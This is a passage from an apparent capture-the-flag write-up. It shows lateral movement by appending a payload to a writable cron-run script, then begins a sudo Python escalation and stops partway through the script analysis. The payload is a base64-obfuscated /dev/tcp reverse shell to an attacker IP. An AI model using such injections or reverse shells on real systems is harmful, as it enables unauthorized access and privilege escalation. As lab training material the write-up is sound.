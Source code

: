 The last entry, which was executed every minute, caught my attention. I analyzed the script itself and check who had permissions to modify it:
```bash
toby@watcher:~/jobs$ cat cow.sh 
  #!/bin/bash
  cp /home/mat/cow.jpg /tmp/cow.jpg
toby@watcher:~/jobs$ ls -al cow.sh 
  -rwxr-xr-x 1 toby toby 46 Dec  3  2020 cow.sh
```

Since I had the permission to modify the script, and it got executed by Mat afterwards, I added a Penelope reverse shell payload. After a few seconds, I received the reverse shell and successfully retrieved the next flag:
```bash
toby@watcher:~/jobs$ cat cow.sh 
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg

echo -n c2V0c2lkIGJhc2ggPiYgL2Rldi90Y3AvW2F0dGFja2VyaXBdLzkwMDIgMD4mMSAmCg==|base64 -d|bash

mat@watcher:~$ id
uid=1002(mat) gid=1002(mat) groups=1002(mat)

mat@watcher:~$ cat flag_5.txt 
  FLAG{l[removed]w}
```

## Privilege Escalation will

While enumerating Mat's permissions, I found a note from Will:
```bash
mat@watcher:~$ cat note.txt 
  Hi Mat,

  I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

  Will
```

After executing `sudo -l`, I understood what Will referenced to with his note:
```bash
mat@watcher:~$ sudo -l
  Matching Defaults entries for mat on watcher:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User mat may run the following commands on watcher:
      (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

I analyzed the Python script to see how it could be used to escalate my privileges:
```bash
mat@watcher:~/scripts$ cat will_script.py 
  import os
  import sys
  from cmd import get_command

  cmd = get_command(sys.argv[1])

  whitelist = ["ls -lah", "id", "cat /etc/passwd"]

  if cmd not in whitelist:
          print("Invalid command!")
          exit()

```